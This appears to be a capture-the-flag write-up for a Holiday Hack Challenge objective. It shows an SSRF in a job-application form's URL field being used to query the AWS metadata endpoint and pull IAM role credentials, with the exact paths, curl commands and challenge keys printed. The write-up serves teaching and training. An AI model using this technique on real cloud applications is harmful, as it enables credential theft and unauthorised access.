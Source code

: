 <h1 id="objective-10-now-hiring">Objective 10: Now Hiring!</h1>
<p><strong>Location: <a href="https://apply.jackfrosttower.com/">https://apply.jackfrosttower.com/</a></strong><br>
<strong>Hints provided by Noxious O. D’or after completion of <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/IMDS%20Exploration.md">IMDS Exploration</a></strong></p>
<p>This objective is about SSRF.</p>
<p>The website’s application form consumes the user’s name, resume (as file upload) and the URL to the public NLBI report.</p>
<p>After the submission, the item specified by the URL is retrieved by the website and then shown on the “submission accepted” screen using the URL <a href="https://apply.jackfrosttower.com/images/%7Busername%7D.jpg">https://apply.jackfrosttower.com/images/{username}.jpg</a></p>
<p>By choosing the right IMDS URLs, the secret access key for the S3 bucket can be retrieved using CURL:</p>
<p>URL 1 (get role name):</p>
<pre><code>http://169.254.169.254/latest/meta-data/iam/security-credentials
</code></pre>
<p>Result:</p>
<pre><code>jsw@io:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
jf-deploy-role
</code></pre>
<p>URL 2 (get security credentials for this role):</p>
<pre><code>http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role
</code></pre>
<pre><code>jsw@io:~$ curl https://apply.jackfrosttower.com/images/joergen.jpg
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
</code></pre>
<p>So the secret access key for the S3 bucket is <strong>CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX</strong></p>
<p><strong>Achievement: SSRF to IMDS to S3 Bucket Access</strong></p>

